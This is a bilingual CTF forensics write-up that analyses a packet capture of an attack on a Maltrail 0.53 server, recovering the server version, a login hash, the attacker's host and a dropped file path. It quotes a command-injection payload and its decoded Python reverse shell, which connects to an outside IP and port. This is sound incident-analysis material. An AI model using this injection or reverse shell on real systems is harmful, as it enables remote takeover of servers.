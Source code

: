 # **Analyze the Bad Hacker!**

**Difficulty:** Tedious and Meticulous (Personal Rating, not provided)  
**Flag:** `HCS{f0R3n51k_1tu_m3n4rik}`

---

## **EN**

For this challenge, we were given this `.pcapng` file, titled `budi.pcapng`.

At first, I was a bit turned down by this. Mostly due to the fact that I didn't have wireshark installed on my current machine, I didn't want to boot up my kali live instance, and that I'm currently on a relatively slow internet connection. So installation of wireshark could, and did, prove to be quite the hassle, especially due to the time limit later on.

Anyway, so what I did was, I looked for an online pcap viewer instead, and found `https://apackets.com/`.

Uploading the pcap file there results in this "analyzed" result:
![A-packets analysis](./assets/image.png)

1. First question asked for the name and version of the server that was analyzed, so what I did was I looked through HTTP Communication, specifically `GET`, because usually `GET` response headers also include the server type/software that returned the response. What I found was this:  
    ![GET Request headers](./assets/image-1.png)  
   `Maltrail/0.53`  
   So that's question 1 down.

2. The second question asked for the credentials used by the hacker to successfully log into the server a second time in the format of `username:hash`. Assuming that `hash` is a hashed password or possibly a token of some sort, I looked through `POST` requests. After looking through them, I found these candidates:

   1. `username=admin&hash=ad46649365c29fdaf9e12b95582e2e2c197f2fdea2c22806e84aa890ed2c2bd8&nonce=TIjxAmLEQZji`
   2. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`
   3. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`

   After some trial and error, I pinned it down to the third one: `admin:56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73`

3. For the third question, it asked for the IP and port that the hacker used to access the server, probably the post-exploitation machine.

While looking at the `POST` requests for number 2, I noticed that a couple packets were looking like this:

```
username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTU5LjIyMy4zMy4yNDAiLDk5OTkpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vc2giKSc="+|+base64+-d+|+sh`
```

The use of `;` was clearly to escape some sort of templating mechanism, so whatever is after that is probably an RCE. I took the base64 encoded string and decoded it:

![RCE Base64 decoded](./assets/image-2.png)

```sh
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("159.223.33.240",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

To sum it up, it basically opens up a shell then connects it through a socket connection to... the post-exploitation device!  
`159.223.33.240:9999`  
So that's 3 down.

4. For number 4, it asked for the absolute path of the file that the hacker put on the server post-exploit.

The analysis from apackets wasn't deep enough to get to socket packets which are raw TCP, so I had to install wireshark to do the packet-by-packet analysis. Dumped into wireshark, we see this:
![A LOT OF PACKETS](./assets/image-3.png)
A **LOT** of packets, so to narrow it down, basing off number 3, we filter for TCP port 9999, that narrows it down to 87 packets.
![A lot to just 87 packets](./assets/image-4.png)
Now it's really just a matter of us scrolling down frame by frame to analyze what the post-exploit shell did.

1. At 2624-2625 the shell executes an `ls` command

![ls command](./assets/image-5.png)

2. At 2648 we see that the `ls` returned a `/`-esque output

![Looks like an "ls /" output](./assets/image-6.png)

3. Then, at 2742-2743, it does a `cd` to `/tmp`

![cd to `/tmp`](./assets/image-7.png)

4. Finally, at 2767-2768, the shell pipes a shell script to a file titled `.hmm.sh`

![hmm.sh](./assets/image-8.png)

To recap, it moved to `/tmp` and writes a file named `.hmm.sh`, so the absolute path is `/tmp/.hmm.sh`.

🎉🎉🎉
![Finished!](./assets/image-9.png)

---

## **ID**

Untuk challenge yang ini, kita diberikan file `.pcapng` bernama `budi.pcapng`.

Awalnya aku sudah nggak enakan ketika melihat format filenya. Terutama karena aku belum punya wireshark di deviceku saat ini, aku nggak mau boot up kali, dan internetku lagi lemot. Jadi kalau menginstall wireshark mungkin, dan ternyata emang, ribet.

Jadi, aku mencari pcap viewer yang online, dan menemukan `https://apackets.com/`.

Setelah di upload pcapnya, keluarlah hasil yang telah teranalisis:  
![A-packets analysis](./assets/image.png)

1. Pertanyaan pertama meminta nama dan versi software yang digunakan pada server yang sedang dianalisis, jadi yang aku lakukan pertama adalah melihat bagian _HTTP Communication_, spesifiknya `GET`, karena biasanya header respons `GET` menyebutkan software dan versi dari server yang merespon. Yang aku temukan ini:  
   ![GET Request headers](./assets/image-1.png)  
   `Maltrail/0.53`  
   Soal 1 selesai.

2. Yang kedua meminta kredensial yang digunakan _hacker_ untuk log in ke server untuk yang kedua kalinya dengan format `username:hash`. Dengan mengasumsikan `hash` itu _password_ yang di-_hash_ ataupun sejenis token, aku melihat tiap `POST` request dalam pcap. Setelah melihat semuanya, aku menemukan kandidat-kandidat ini:

   1. `username=admin&hash=ad46649365c29fdaf9e12b95582e2e2c197f2fdea2c22806e84aa890ed2c2bd8&nonce=TIjxAmLEQZji`
   2. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`
   3. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`

   Setelah _trial and error_, aku dapet yang ini sebagai yang benar: `admin:56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73`

3. Untuk pertanyaan ketiga, dia meminta IP dan port yang digunakan hacker untuk mengakses server.

Saat melihat-lihat `POST` di pertanyaan 2, aku melihat ada dua paket yang isinya begini:

```
username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTU5LjIyMy4zMy4yNDAiLDk5OTkpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vc2giKSc="+|+base64+-d+|+sh`
```

Penggunaan `;` dalam input menunjukkan bahwa ini sebuah escape dari suatu sanitasi string, jadi apapun yang setelah itu kemugkinan adalah RCE. Aku ambil string base64nya dan aku decode:

![RCE Base64 decoded](./assets/image-2.png)

```sh
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("159.223.33.240",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Kesimpulannya, ini ngebuka shell, terus konek ke device _hacker_ lewat socket. Dari sini kita bisa lihat IP dan portnya:  
`159.223.33.240:9999`

4. Nomor 4 meminta _absolute path_ dari file yang _hacker_ taruh lewat shell di nomor 3.

Analisis apackets kurang dalem untuk melihat paket sockets yang biasanya _raw TCP_, jadi aku terpaksa menginstall wireshark terlebih dahulu. Dimasukkan ke situ hasilnya gini:  
![A LOT OF PACKETS](./assets/image-3.png)  
**Banyak** banget paketnya, jadi untuk mengurangi jumlah kandidat, kita filter ke TCP port 9999, jadi tinggal 87 paket aja.  
![A lot to just 87 packets](./assets/image-4.png)  
Sekarang tinggal scroll tiap _frame_ aja satu-satu sampe ngerti.

1. Di 2624-2625 shellnya ngejalanin `ls`

![ls command](./assets/image-5.png)

2. Di 2648 kita lihat outputnya kurang lebih outputnya `ls /`

![Looks like an "ls /" output](./assets/image-6.png)

3. Terus, di 2742-2743, dia `cd` ke `/tmp`

![cd to `/tmp`](./assets/image-7.png)

4. Akhirnya, di 2767-2768, shellnya ngepipe shell script ke file `.hmm.sh`

![hmm.sh](./assets/image-8.png)

Jadiii, kesimpulannya, dia ke `/tmp` terus nulis file `.hmm.sh`, jadi _absolute path_-nya `/tmp/.hmm.sh`.

🎉🎉🎉
![Finished!](./assets/image-9.png)
